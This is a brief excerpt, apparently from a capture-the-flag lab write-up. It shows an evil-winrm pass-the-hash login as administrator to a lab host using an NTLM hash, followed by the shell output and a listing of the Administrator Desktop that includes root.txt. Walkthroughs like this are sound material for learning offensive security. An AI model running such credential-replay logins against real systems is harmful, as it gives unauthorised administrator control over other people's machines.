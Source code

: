 ```bash
evil-winrm -u administrator -H '184fb5e5178480be64824d4cd53b99ee' -i 10.129.62.228
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
-a----        11/5/2020   8:38 PM             32 root.txt

```
